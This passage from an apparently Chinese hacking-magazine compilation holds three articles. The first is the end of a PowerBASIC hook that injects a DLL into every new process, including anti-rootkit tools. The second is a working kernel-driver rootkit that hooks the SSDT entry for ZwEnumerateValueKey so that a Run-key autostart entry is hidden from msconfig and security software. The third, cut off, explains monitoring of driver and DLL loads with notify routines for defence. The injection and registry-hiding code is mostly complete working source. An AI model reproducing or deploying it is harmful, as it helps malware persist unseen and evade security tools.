FUNCTION MyNtResumeThread(BYVAL ThreadHandle AS LONG, BYVAL PreviousSuspendCount AS LONG) AS LONG
    DIM hNtdll AS DWORD
    DIM nStatus AS DWORD
    DIM ProID AS LONG
    DIM myPID AS LONG
    DIM ti AS THREAD_BASIC_INFORMATION

    nStatus = NtQueryInformationThread(ThreadHandle, %ThreadBasicInformation, VARPTR(ti), SIZEOF(THREAD_BASIC_INFORMATION), %NULL)
    IF nStatus <> %NULL THEN GOTO Ex

    ProID = ti.ClientId.UniqueProcess
    myPID = GetCurrentProcessId
    IF ProID <> myPID AND ProID <> 0 THEN
        ' 判断是否为新建进程
        IF INSTR(strThreadMap, STR$(ProID)) > 0 THEN
            strThreadMap = REMOVES$(strThreadMap, STR$(ProID) & "|")
            GOTO Ex
        END IF

        InjectDll ProID, "C:\HookNtResumeThread.dll"
        ' 注入 DLL 到新进程
    END IF

Ex:
    ' 调用 NtResumeThread 函数
    CALL DWORD NtResumeThreadNextHook USING NtResumeThread(ThreadHandle, PreviousSuspendCount) TO nStatus
    FUNCTION = nStatus
    ' 返回值
END FUNCTION
```

这样就实现了全局Hook。代码虽然很简单，但如果从被注入了DLL的程序启动ARK，竟然也能把DLL注入到天网、IceLight等自我保护特别强悍的ARK中（冰刃、XueTr就更不用说了）。

当然，如果已经启动过ARK，再次启动或者已经加载了驱动就不行了；而且如果再从这些ARK中启动新进程，也能继续把DLL注入到由ARK启动的新进程中。图5和图6就是先从被注入了DLL的EXPLORER.EXE中启动冰刃，再从冰刃中启动Outlook Express的情景（点击“帮助”→“关于 IceSword”→jfpan2000@@sina.com就会启动Outlook Express）。



图4



图5



图6

关于用BASIC语言实现Hook就讲这么多了，有兴趣的读者可以继续发挥自己的想象力。可以毫不夸张地说，BASIC语言其实和C语言是一样强大的。世界上只有糟糕的程序员，没有糟糕的程序设计语言。最后再告诉广大Basic爱好者一个好消息：FreeBasic可以用来编写设备驱动程序，只会BASIC的程序员不用再羡慕C程序员了。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、Ring0、注册表

## Ring0下注册表键值的枚举与隐藏

文/图 键盘上的眼泪

注册表一直都是病毒、木马和杀毒软件的必争之地。有很多木马为了自启动，都会在注册表的Run项里写入键值。有很多系统管理工具在管理启动项的时候，会通过读取注册表Run项里的内容来获得启动内容。如果我们将Run项里的某个键值隐藏起来，这样的话，那些系统管理工具就获取不了我们的启动项了。

再使用ZwEnumerateValueKey函数来枚举注册表。该函数原型如下：

```c
NTSTATUS ZwEnumerateValueKey(
  IN HANDLE KeyHandle,
  IN ULONG Index,
  IN KEY_VALUE_INFORMATION_CLASS KeyValueInformationClass,
  OUT PVOID KeyValueInformation,
  IN ULONG Length,
  OUT PULONG ResultLength
);
```

#### 注册表键值的枚举

我们先来看看注册表键值的枚举原理。只有弄懂枚举原理，才好做隐藏。在内核模式下枚举注册表，首先需要使用ZwQueryKey函数查询注册表，该函数原型如下：

```c
NTSTATUS ZwQueryKey(
  IN HANDLE KeyHandle,
  IN KEY_INFORMATION_CLASS KeyInformationClass,
  OUT PVOID KeyInformation,
  IN ULONG Length,
  OUT PULONG ResultLength
);
```

KeyInformationClass参数一般指定为KeyFullInformation，对应了KEY_INFORMATION_CLASS的数据结构。这个数据结构的大小是变长的，所以要调用两次ZwQueryKey：第1次调用是获取KEY_INFORMATION_CLASS数据的长度，第2次则是获取KEY_INFORMATION_CLASS的数据，然后再使用ZwEnumerateValueKey函数来枚举注册表。

KeyValueInformationClass参数是枚举类别，我们使用KeyValueFullInformation，数据结构是KEY_VALUE_FULL_INFORMATION。由于这个结构也是变长的，所以也需要调用两次ZwEnumerateValueKey：第1次获取的是长度，第2次获取的是数据。具体实现的代码如下：

```c
#include <ntddk.h>

VOID DriverUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("Driver Unload");
}

// 自定义枚举注册表键值函数
NTSTATUS MyRegEnumSubValue()
{
    UNICODE_STRING RegUnicodeString;
    HANDLE hRegister;
    ULONG ulSize;
    NTSTATUS ntStatus;
    UNICODE_STRING uniKeyName;
}
```

```c
PKEY_VALUE_FULL_INFORMATION pvbi;
PKEY_FULL_INFORMATION pfi;
ULONG i;
OBJECT_ATTRIBUTES objectAttributes;

// 初始化 UNICODE_STRING 字符串
RtlInitUnicodeString(&RegUnicodeString,
    L"\\REGISTRY\\MACHINE\\SOFTWARE\\MICROSOFT\\WINDOWS\\CURRENTVERSION\\RUN");

// 初始化 objectAttributes
InitializeObjectAttributes(&objectAttributes,
    &RegUnicodeString,
    OBJ_CASE_INSENSITIVE,
    NULL,
    NULL);

// 打开注册表
ntStatus = ZwOpenKey(&hRegister, KEY_ALL_ACCESS, &objectAttributes);
if (NT_SUCCESS(ntStatus)) {
    KdPrint(("Open register successfully\n"));
}

ZwQueryKey(hRegister, KeyFullInformation, NULL, 0, &ulSize);
pfi = (PKEY_FULL_INFORMATION)ExAllocatePool(PagedPool, ulSize);

// 查询注册表
ZwQueryKey(hRegister, KeyFullInformation, pfi, ulSize, &ulSize);

// 开始循环枚举注册表
for (i = 0; i < pfi->Values; i++) {
    ZwEnumerateValueKey(hRegister, i, KeyValueFullInformation, NULL, 0, &ulSize);
    pvbi = (PKEY_VALUE_FULL_INFORMATION)ExAllocatePool(PagedPool, ulSize);
    ZwEnumerateValueKey(hRegister, i, KeyValueFullInformation, pvbi, ulSize, &ulSize);
    ...
}
```

```c
MaximumLength = (USHORT)pvbi->NameLength;
uniKeyName.Buffer = pvbi->Name;

// 将键值输出
DbgPrint("第%d个键值名称是:%wZ\n", i, &uniKeyName);

// 判断键值的类型
if (pvbi->Type == REG_SZ) {
    DbgPrint("键值的类型是:REG_SZ\n");
} else if (pvbi->Type == REG_MULTI_SZ) {
    DbgPrint("键值的类型是:REG_MULTI_SZ\n");
} else if (pvbi->Type == REG_DWORD) {
    KdPrint(("键值的类型是:REG_DWORD\n"));
} else if (pvbi->Type == REG_BINARY) {
    KdPrint(("键值的类型是:REG_BINARY\n"));
}

ExFreePool(pvbi);
}
ExFreePool(pfi);
ZwClose(hRegister);
return STATUS_SUCCESS;
}

NTSTATUS DriverEntry(
    IN PDRIVER_OBJECT DriverObject,
    IN PUNICODE_STRING RegistryPath
)
{
    MyRegEnumSubValue();
    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```

将以上代码编译，驱动加载后的效果如图1所示。



图1

#### 注册表键值的隐藏

明白了枚举注册表键值的方法，那么隐藏注册表键值就比较容易理解了。我们可以使用 HOOK SSDT 的方法将 `ZwEnumerateValueKey` 函数给钩住，这样就能隐藏键值了。在程序中，钩住 `ZwEnumerateValueKey` 函数之后，我们要在函数里判断，如果枚举的是 Run 项里的 `hacker` 的键值的话，就将函数返回 `STATUS_ACCESS_DENIED`，其他的就调用真实的函数，这样用户就看不到 `hacker` 这个键值了。

但是 `ZwEnumerateValueKey` 函数里并没有参数是表示注册表项的路径，我们怎么才能知道是不是 Run 项呢？这可以调用 `ObReferenceObjectByHandle` 来得到句柄所对应的对象的内存地址；该函数的原型如下：

```c
NTSTATUS ObReferenceObjectByHandle(
    IN HANDLE Handle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_TYPE ObjectType OPTIONAL,
    IN KPROCESSOR_MODE AccessMode,
    OUT PVOID *Object,
    OUT POBJECT_HANDLE_INFORMATION HandleInformation OPTIONAL
);
```

得到对象的内存地址之后，再调用 `ObQueryNameString` 就可以获得注册表项的路径了。我们来看看具体的实现代码。

```c
#include <ntddk.h>
extern NTSYSAPI NTSTATUS NTAPI ObQueryNameString(
    IN PVOID Object,
    OUT POBJECT_NAME_INFORMATION ObjectNameInfo,
    IN ULONG Length,
    OUT PULONG ReturnLength
);

extern NTSYSAPI NTSTATUS NTAPI ZwEnumerateValueKey(
    IN HANDLE KeyHandle,
    IN ULONG Index,
    IN KEY_VALUE_INFORMATION_CLASS KeyValueInformationClass,
    OUT PVOID KeyValueInformation,
    IN ULONG Length,
    OUT PULONG ResultLength
);
```

```c
// 声明原有的函数
typedef NTSTATUS (*REALZWENUMERATEVALUEKEY)(
    IN HANDLE KeyHandle,
    IN ULONG Index,
    IN KEY_VALUE_INFORMATION_CLASS KeyValueInformationClass,
    OUT PVOID KeyValueInformation,
    IN ULONG Length,
    OUT PULONG ResultLength
);

REALZWENUMERATEVALUEKEY RealZwEnumerateValueKey;

// 我们 HOOK 的函数
NTSTATUS HookZwEnumerateValueKey(
    IN HANDLE KeyHandle,
    IN ULONG Index,
    IN KEY_VALUE_INFORMATION_CLASS KeyValueInformationClass,
    OUT PVOID KeyValueInformation,
    IN ULONG Length,
    OUT PULONG ResultLength
);

PCWSTR HideValue = L"hacker";

// SYSTEMSERVICE 的定义
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function+1)]

PVOID GetPointer(HANDLE handle)
{
    PVOID pKey;
    if (!handle)
        return NULL;

    if (ObReferenceObjectByHandle(handle, 0, NULL, KernelMode, &pKey, NULL) != STATUS_SUCCESS)
    {
        pKey = NULL;
    }

    return pKey;
}

NTSTATUS HookZwEnumerateValueKey(
    IN HANDLE KeyHandle,
    IN ULONG Index,
    IN KEY_VALUE_INFORMATION_CLASS KeyValueInformationClass,
    OUT PVOID KeyValueInformation,
    IN ULONG Length,
    OUT PULONG ResultLength
)
{
    PVOID pKey;
    UNICODE_STRING *pUniName;
    ULONG actualLen;
    ANSI_STRING keyname;
    NTSTATUS status;
    PCWSTR ValueName = NULL;

    status = ((REALZWENUMERATEVALUEKEY)(RealZwEnumerateValueKey))(
        KeyHandle,
        Index,
        KeyValueInformationClass,
        KeyValueInformation,
        Length,
        ResultLength);

    // 得到文件对象的指针
    if ((pKey = GetPointer(KeyHandle)))
    {
        // 分配内存
        pUniName = ExAllocatePool(NonPagedPool, 1024 * 2);
        pUniName->MaximumLength = 512 * 2;

        // 将 pUniName 里的内容清空
        memset(pUniName, 0, pUniName->MaximumLength);

        // 得到注册表项的路径
        if (NT_SUCCESS(ObQueryNameString(pKey, pUniName, 512 * 2, &actualLen)))
        {
            RtlUnicodeStringToAnsiString(&keyname, pUniName, TRUE);
            keyname.Buffer = _strupr(keyname.Buffer);

            // 判断是不是 Run 项
            if (strcmp(keyname.Buffer,
                "\\REGISTRY\\MACHINE\\SOFTWARE\\MICROSOFT\\WINDOWS\\CURRENTVERSION\\RUN") == 0)
            {
                switch (KeyValueInformationClass)
                {
                case KeyValueBasicInformation:   // KEY_VALUE_BASIC_INFORMATION
                    ValueName = ((PKEY_VALUE_BASIC_INFORMATION)KeyValueInformation)->Name;
                    break;

                case KeyValueFullInformation:    // KEY_VALUE_FULL_INFORMATION
                    ValueName = ((PKEY_VALUE_FULL_INFORMATION)KeyValueInformation)->Name;
                    break;
                }

                // 判断 ValueName 里的值是否有 hacker，如果有则将函数返回 STATUS_ACCESS_DENIED
                if ((ValueName != NULL) && (wcsstr(ValueName, HideValue) != NULL))
                {
                    DbgPrint("Hide Value\n");
                    RtlFreeAnsiString(&keyname);

                    // 释放内存
                    if (pUniName)
                    {
                        ExFreePool(pUniName);
                    }

                    return STATUS_ACCESS_DENIED;
                }
            }
        }
    }

    status = RealZwEnumerateValueKey(
        KeyHandle,
        Index,
        KeyValueInformationClass,
        KeyValueInformation,
        Length,
        ResultLength);

    if (pUniName)
    {
        ExFreePool(pUniName);
    }

    return status;
}

VOID DriverUnload(
    IN PDRIVER_OBJECT DriverObject
)
{
    DbgPrint("驱动已经停止了\n");
    (REALZWENUMERATEVALUEKEY)(SYSTEMSERVICE(ZwEnumerateValueKey)) = RealZwEnumerateValueKey;
}

NTSTATUS DriverEntry(
    IN PDRIVER_OBJECT DriverObject,
    IN PUNICODE_STRING RegistryPath
)
{
    DbgPrint("驱动已经加载了\n");

    RealZwEnumerateValueKey = (REALZWENUMERATEVALUEKEY)(SYSTEMSERVICE(ZwEnumerateValueKey));
    (REALZWENUMERATEVALUEKEY)(SYSTEMSERVICE(ZwEnumerateValueKey)) = HookZwEnumerateValueKey;

    DriverObject->DriverUnload = DriverUnload;
    return STATUS_SUCCESS;
}
```



图2

开启驱动之后，我们在注册表的 Run 项里新建一个键名为 `hacker`，键值的数据为 `C:\windows\system32\cmd.exe`，如图2所示，然后按“F5”键刷新一下，这时 `hacker` 键值就隐藏了。我们打开 `msconfig`，在启动项里看不到 `hacker`，再打开 360 安全卫士，选择启动项状态，里面也没有 `hacker` 启动项，如图3所示，这样启动项就被隐藏了。



图3

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、通告例程、驱动


## 使用通告例程监控
#### 驱动及 DLL 加载

文／NewbieCoder[OGiNr]

随着隐藏进程检测技术的进步，木马也转而向无进程方向发展。通常，它们会将代码编译成一个 DLL（在本文中，DLL 特指用户模式下的动态链接库）或者一个驱动而随其他进程加载（驱动被加载到 System 进程），所以如何监控驱动以及 DLL 加载成为了防马的重要一环。本文介绍一种通过使用 Windows NT 系统所提供的注册通告例程来监控驱动以及 DLL 加载的方法。

在驱动中存在两种相似的可以被注册的例程：回调（Callback）以及通告（Notification）。其中，回调函数拥有返回值，可以通过返回值来表明允许或是拒绝正在进行的操作；而通告函数只是告知驱动一个操作正在发生。通常而言，通告函数没有返回值，因此驱动无法阻绝正在进行的操作（Vista Service Pack 1 新引入的 `PsSetCreateProcessNotifyRoutineEx` 是一个特例，通过该函数所注册的通告函数 `CreateProcessNotifyEx`，可以通过修改参数 `CreateInfo` 的成员 `CreationStatus` 来控制进程创建，这有可能是为了在函数名上向前兼容而导致的）。但是甚至于在 WDK 的说明文档中，这两个术语也经常被混用。广义上而言，通告也是一种回调，但这种回调不会对函数执行产生影响，因此，本文把注册的加载模块通告函数称之为回调。

#### 注册回调

注册模块加载回调通过 `PsSetLoadImageNotifyRoutine(LoadImageNotifyRoutine)` 即可完成，之后每当系统中有新的驱动或者 DLL 被加载，`LoadImageNotifyRoutine` 就会被调用，其参数 `FullImageName` 指明了正在加载的模块文件名（但是信息不一定完全，具体后文会谈到），`ProcessId` 指明了加载该模块的进程 PID，`ImageInfo` 的成员 `SystemModeImage` 指明了是否为内核模块（通常为驱动）。

#### 模块文件名

- 1. 内核模块的文件名

对于内核模块而言，`LoadImageNotifyRoutine` 的参数 `FullImageName` 即指明了该内核模块的文件名，但并不是我们常见的 DOS 风格文件名（DOS 风格文件名是指 `C:\xx.xxx` 这样的文件名），通过一些转换即可获取该模块的 DOS 风格文件名。

对于 `\??\X:\xxx\xxx`，去掉前缀 `\??\` 即可（前面的 `\??\` 实际上是 `DosDevices` 这个符号链接的目标）；对于 `\SystemRoot\xxx`，将 `\SystemRoot\` 替换为 Windows 目录（`SystemRoot` 实质上是一个符号链接，目标是 Windows 目录）；对于 `\WINDOWS\system32\xxx`，在字符串前端加上 Windows 所在分区的盘符即可。

这是一项虽然繁琐但并不困难的工作，本文不多讨论。对于 1、2 两种情况，均可使用后文所提到的转换 NT 风格路径的方法来转换为 DOS 风格路径。

- 2. DLL 的文件名

尽管本文主要讨论的是模块加载，但由于创建进程时，EXE 自身也会被系统作为模块的加载来处理，换句话说，也会引发回调，因此 EXE 的加载将在此处一起讨论。

从 Vista 起，`IMAGE_INFO` 结构中多了成员 `ExtendedInfoPresent`，当 `ExtendedInfoPresent=1` 时，可以通过 `CONTAINING_RECORD(ImageInfo, IMAGE_INFO_EX, ImageInfo)` 得到 `IMAGE_INFO_EX` 结构的数据，其中多出了 `FileObject`，我们可以直接通过 `FileObject` 方便地获取信息。以下只讨论 Vista 之前系统的情况。

对于 DLL（包括 EXE）的加载，可以分为以下 3 种情况。

① 对于 EXE 文件自身  
由于 EXE 以及 `ntdll.dll` 是由系统在进程开始执行之前就映射入进程空间的，因此这两个文件的加载回调被系统特殊处理（普通的 DLL 加载是通过 `ZwMapViewOfSection` 加载的，而 EXE 是在创建进程空间之后通过 `MmInitializeProcessAddressSpace` 映射入进程空间的，`ntdll.dll` 是在进程创建了进程空间之后由 `PsMapSystemDll` 映射入进程空间的）。

通过在 `LoadImageNotifyRoutine` 上下断，可以看到如下调用堆栈：

```text
LoadImageNotifyDriver!LoadImageNotifyRoutine
nt!PsCallImageNotifyRoutines+0x36
nt!DbgkCreateThread+0xa2
nt!PspUserThreadStartup+0x9d
nt!KiThreadStartup+0x16
```

一层一层向上回溯：

```text
nt!PsCallImageNotifyRoutines+0x2b:
push dword ptr [ebp+10h]
push dword ptr [ebp+0Ch]
push dword ptr [ebp+8]
// 回调函数的参数 FullImageName，也是 PsCallImageNotifyRoutine 的第一个参数
call eax // 调用回调函数
```

再向上回溯一层：

```text
nt!DbgkCreateThread+0x7d:
lea eax,[ebp-38h]
push eax // 参数 FileNameInfo
push dword ptr [esi+138h]
// 参数 SectionObject
call nt!MmGetFileNameForSection (8059d646)
cmp eax,ebx // ebx = 0
lea eax,[ebp-2Ch]
push eax
push dword ptr [esi+84h]
```

```asm
nt!DbgkCreateThread+0xad (8063909d)
// 若 MmGetFileNameForSection 失败则跳走

nt!DbgkCreateThread+0x9a:
push dword ptr [ebp-38h]
// 前面由 MmGetFileNameForSection 填充
call nt!PsCallImageNotifyRoutines (805c5b40)
// 调用回调
```

可以看到，对于 EXE，`FullImageName` 传入的是 `MmGetFileNameForSection` 传出的 `FileNameInfo`，其内容是 EXE 的完整路径（NT 风格路径，类似于 `\Device\HarddiskVolume1\xxx`，NT 风格路径通过转换可以得到 DOS 风格路径）。

- ② 对于 ntdll.dll

对于 ntdll 而言，回调同样是从 `DbgkCreateThread` 发起的，查看调用堆栈。

```asm
LoadImageNotifyDriver!LoadImageNotifyRoutine
nt!PsCallImageNotifyRoutines+0x36
nt!DbgkCreateThread+0x125
nt!PspUserThreadStartup+0x9d
nt!KiThreadStartup+0x16

回溯到 DbgkCreateThread
nt!DbgkCreateThread+0xfc:
push offset nt!DbgkpSectionToFileHandle+0x70
// 要初始化的 UNICODE 字符串
lea eax,[ebp-0E4h]
push eax
call nt!RtlInitUnicodeString (8052af2c)

nt!DbgkCreateThread+0x10f:
lea eax,[ebp-2Ch]
push eax
push dword ptr [esi+84h]
lea eax,[ebp-0E4h]
push eax
call nt!PsCallImageNotifyRoutines (805c5b40)
// 调用回调

kd> du nt!DbgkpSectionToFileHandle+0x70
"\\SystemRoot\\System32\\ntdll.dll"
```

可以看出，对于 ntdll.dll，`FullImageName` 被硬编码为 `\SystemRoot\System32\ntdll.dll`，按照前文处理内核模块文件名的方法，可以转换为 DOS 风格路径。

为了方便编码，我没有对 EXE 以及 ntdll 做特殊处理，而是将 EXE、ntdll 以及其他模块使用相同的方法获取文件名（详见后文）。

- ③ 对于普通 DLL

